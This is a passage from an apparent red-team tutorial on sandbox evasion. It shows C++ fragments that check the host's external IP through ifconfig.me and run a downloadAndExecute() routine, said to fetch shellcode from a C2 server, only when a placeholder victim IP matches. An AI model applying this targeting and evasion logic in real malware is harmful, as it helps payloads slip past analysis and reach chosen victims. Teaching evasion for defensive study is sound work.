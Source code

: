 ```
  // Compare if the string is equal to the targeted victim's IP. If true, return the check is successful. Else, fail the check.
    if (s == "VICTIM_IP") {       
        return TRUE;   
    }   
    else {       
    return FALSE;   
    }
} 
```

This code can be broken down into the following steps:

    Declare the required variables mentioned above.
    Open an internet stream with the URLOpenBlockingStreamA function to ifconfig.me/ip to check the current IP Address.
    Write the data stream returned from the URLOpenBlockingStreamA function to the memory. 
    Append the data from the memory buffer to a string variable.
    Check and see if the string data is equal to the Victim's IP Address.
    If True, return TRUE; if False, return FALSE.

Now we must modify our main function so that we can leverage our newly created function:

```
int main(){
    if(checkIP() == TRUE){
        downloadAndExecute();
        return 0;
    }
    else {
        cout << "HTTP/418 - I'm a Teapot!";
        return 0;
    }
} 
```

The code above invokes the new function, checkIP(), and if the IP Address returns TRUE, then invoke the downloadAndExecute() function to call the shellcode from our C2 server. If FALSE, return HTTP/418 - I'm a teapot!".


Testing Our Code

Now that we have wrapped up our second Sandbox Evasion technique, it is very important to know that this is an incredibly common TTP used by threat actors. Both APTs and Red Teams alike often use services to check the "Abuse Info" of an IP Address to gather information about an IP Address to determine if it is a legitimate company or not. Any.Run is well aware of this Anti-Sandboxing technique and has even flagged it in our instance. You can see the detailed results at the links below:

    One with an IP Address Filter https://app.any.run/tasks/dbc2e81a-d7da-4ee5-a628-a5d2d17a0c1a
    One without an IP Address Filter https://app.any.run/tasks/6c721d61-b06a-4497-84fd-1aea34671085

Looking at the two results, we can see that ifconfig.me is flagged as a "questionable/Potentially Malicious" site used to check for your external IP Address. In fact, this Sandbox evasion method ended up hurting our score, so it should be used as a last resort or with a recently deployed/custom IP Address checking server. The full report can be found here. 
